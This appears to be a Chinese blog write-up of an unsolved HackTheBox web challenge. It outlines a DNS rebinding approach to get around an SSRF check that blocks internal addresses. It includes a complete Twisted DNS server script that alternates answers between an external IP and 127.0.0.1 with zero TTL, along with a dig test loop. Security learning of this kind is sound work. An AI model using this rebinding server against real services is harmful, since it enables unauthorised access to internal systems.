 ```yaml
---
title: '[HTB]一道涉及DNS Rebinding attack的题(未做出来)'
date: 2022-01-07 21:56:33
tags: [HTB,web,刷题]
published: true
hideInList: false
feature: 
isTop: false
---
```

# baby CachedView (没做出来)

题目提供的Dockerfile下载cffi的时候报错,需要下载libcairo2-dev gcc 
暂时不打算做了.服务器之前白嫖了一个ipv6的小鸡,但是老实说自己不怎么会玩= =好像连ipv6好只能手机下一个1.1.1.1的vpn.......弄python环境又费好长时间.太费时间了.主要记录一下思路

<!-- more -->


![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/20220107_1.png)


先看一下代码,是有对应的flag路径的,并且是一个flag.png 
仔细观察访问/flag的路由处调用的函数(自定义的装饰器) 会发现有一个or的语法
![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/20220107_2.png)
cache_web 内部有负责检查json传递的url是否是内网的ip.如果是,就会拒绝访问并提示

![Untitled](baby%20CachedView%20(%E6%B2%A1%E5%81%9A%E5%87%BA%E6%9D%A5)%20643fd77ac8bd473b81f7b05c5c8e09fb/Untitled%202.png)


看截图的代码(这个写的不错,学习了.之前我也用webdriver写过爬虫,没有想到这个方法)

```php
from selenium.webdriver.support.ui import WebDriverWait
WebDriverWait(driver, wait_time).until(lambda r: r.execute_script('return document.readyState') == 'complete')
```

发现即使在api的请求中去掉referrer也会在截图的代码中被识别非本地或有referrer.所以这里要使用一下DNS rebinding的方法(注意 该方法基于TTL为0的基础上,否则会返回缓存即外网地址.ssrf会失败) 

> Since domain owners have complete control of their DNS records, they can resolve their hostnames to arbitrary IP addresses. The DNS rebinding attack abuses this privilege.
> 

以下截图来自defcon的视频截图

![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/20220107_3.png)

最后我按着先知社区的这个帖子学来的知识去实践(谢谢大佬),[https://xz.aliyun.com/t/7495#toc-5](https://xz.aliyun.com/t/7495#toc-5) 这篇帖子也没有用 前面两个用到的”**Singularity of Origin DNS Rebinding Attack”** 工具,而是自己写了一个,我觉得对于理解也很有用.我跟着帖子以及google学习了一下twisted涉及DNS请求的部分,里面的twsited的代码应该是参考的twisted 16.5.0的document下howto的

用了帖子里的代码(改了一点)

```python
from collections import defaultdict
from twisted.internet import reactor, defer
from twisted.names import client, dns, error, server
import logging

RECORD = defaultdict(int)
SOURCE_IP = "178.128.174.129"
TARGET_IP = "127.0.0.1"
KEY_WORD = '2u1e0'

logging.basicConfig(level=logging.INFO,
                    filename="{}.log".format(KEY_WORD),
                    format='%(asctime)s - %(pathname)s[line:%(lineno)d] - %(levelname)s: %(message)s'
                    )

class DynamicResolver(object):
    def _dynamicResponseRequired(self,query):
        # print(query.name.name)
        if KEY_WORD in str(query.name.name):
            return True
        else:
            return False 

    def _doDynamicResponse(self, query):
        name = query.name.name
        if name not in RECORD or RECORD[name] % 3 == 0:
            ip = SOURCE_IP
        else:
            ip = TARGET_IP
        RECORD[name] += 1
        
        logging.info("\t[-] {}({}) ===> {}".format(name,RECORD[name],ip))
        answer = dns.RRHeader(
            name = name,
            type = dns.A,
            cls = dns.IN,
            ttl = 0, 
            payload = dns.Record_A(address=ip,ttl=0)
        )
        answers = [answer]
        authority = []
        additional = []
        return answers, authority, additional
    
    def query(self,query,timeout=None):
        if self._dynamicResponseRequired(query):
            return defer.succeed(self._doDynamicResponse(query))
        else:
            
            return defer.fail(error.DomainError())
    

def main():
    factory = server.DNSServerFactory(
        clients = [DynamicResolver(),client.Resolver(resolv='/etc/resolv.conf')]
    )
    protocol = dns.DNSDatagramProtocol(controller=factory)
    reactor.listenUDP(53,protocol)
    reactor.run()

if __name__ == '__main__':
    raise SystemExit(main())
```

一个shell脚本进行测试:

```sh
#!/bin/sh
for ((i=0; i<10; i++));
do
	dig @8.8.8.8 2u1e0.xyz
done
```

还要修改/etc/resolv.conf

同时,在自己购买的域名(刚买的)上进行配置:

![Untitled](https://cdn.jsdelivr.net/gh/1dayluo/PicGo4Blog/data/20220107_4.png)

但是还需要加一条NS记录,填自己的的DNS服务器域名........





## Referer

- [https://www.youtube.com/watch?v=y9-0lICNjOQ&list=PLB0iNDIOY78Yno8UgY1j_2kKlrTxZticw](https://www.youtube.com/watch?v=y9-0lICNjOQ&list=PLB0iNDIOY78Yno8UgY1j_2kKlrTxZticw)
- [https://xz.aliyun.com/t/7495#toc-5](https://xz.aliyun.com/t/7495#toc-5)
- [https://twistedmatrix.com/documents/16.5.0/names/howto/custom-server.html](https://twistedmatrix.com/documents/16.5.0/names/howto/custom-server.html)  学习twsited的时候用到的